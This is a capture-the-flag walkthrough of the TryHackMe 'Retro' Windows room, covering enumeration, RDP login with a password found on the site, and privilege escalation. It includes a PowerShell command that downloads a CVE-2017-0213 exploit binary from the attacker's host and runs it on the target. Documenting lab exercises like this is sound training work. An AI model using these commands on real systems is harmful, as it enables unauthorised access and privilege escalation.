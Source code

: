 ```yaml
---
date: 2025-01-25
categories: [CTF, THM]
title: "THM - Retro"
tags: ['gobuster', 'nmap', 'privilege escalation', 'rce', 'windows']

description: "Retro - A walkthrough of the challenge with enumeration, exploitation and privilege escalation steps."
---
```


---
---

# THM - Retro

NMAP

![image1](../resources/73bc979fd79147bfb7af953ba4eb1a47.png)


![image2](../resources/1c08683911c64c4a8de7ab4488b9b326.png)

Directory bruteforce:

```bash
gobuster dir -u http://10.10.216.131 -w /usr/share/seclists/Discovery/Web-Content/big.txt
```

![image3](../resources/cea9a1109b664188b46e5c75fac18af7.png)

`http://10.10.216.131/retro/`

![image4](../resources/ecb8a353b0464de992258ed05fcdc35a.png)

Looking at the page source - Found:


![image5](../resources/aa84b5b210c14fb08bc788310008a45a.png)


![image6](../resources/8696e847d65e4ddd801d2960a5832fcc.png)


![image7](../resources/ac7f5e9ba3c74e41913bd75892f4fda3.png)

`http://10.10.216.131/retro/index.php/author/wade/`

![image8](../resources/8c580b0666894cb0a628eb2fff9c6e60.png)

- Something that could be a password - **parzival**:

![image9](../resources/4ab9932580fc42f4b3e6d0418d90eda8.png)

- Port 3389 is open:

```bash
xfreerdp /v:10.10.216.131 /u:wade /p:"parzival" /dynamic-resolution /cert:ignore

```

![image10](../resources/6fa0765df1854a42934cf8573b6d301c.png)

We can read user.txt

Start enumeration:

```bash
query user
```

![image11](../resources/6a64b73af79f47eebd83fe8995593250.png)

```bash
whoami /all
```

![image12](../resources/432413d02bc74bcda5c1a249db2493a9.png)

- Open Chrome and check history


![image13](../resources/0f732021568b4242a94c0d3a0010085b.png)

[https://github.com/ycdxsb/WindowsPrivilegeEscalation](https://github.com/ycdxsb/WindowsPrivilegeEscalation#cve-2022-37969)


![image14](../resources/a2e47d8ae0b6463d96a007b78a545c0d.png)

**\*\* Check Recycle Bin for hhupd.exe file**


![image15](../resources/05db7a389b9e4be19737304ed40afcb1.png)

- **Run the program as administrator**


![image16](../resources/7359fc3702b44ad6a7ff7d4241d8ba1f.png)


![image17](../resources/374caaf6525f4934882a7e8347f517fc.png)


![image18](../resources/cf7819f17efd4086a98c2442ecd7d308.png)


![image19](../resources/adfa477c1b1c45379dfd2a4adce57c42.png)


![image20](../resources/8a45a11c811e4e8c952fc72f54464a45.png)

- Kept getting to this point but no programs show up

- Found a hint:
Make sure to open Internet Explorer and Chrome BEFORE running the program

But still doesn't work

- Wes-NG suggested CVE-2017-0213
<https://github.com/SecWiki/windows-kernel-exploits/tree/master/CVE-2017-0213>

Download and extract the zip file and transfer to the windows machine:

```bash
(New-Object System.Net.WebClient).DownloadFile('http://10.8.24.66:8081/CVE-2017-0213_x64.exe', 'C:\Users\wade\CVE-2017-0213_x64.exe')

```
And just run it


![image21](../resources/8c1c874c7d304ce998d28d29ffefe7bb.png)

Read root.txt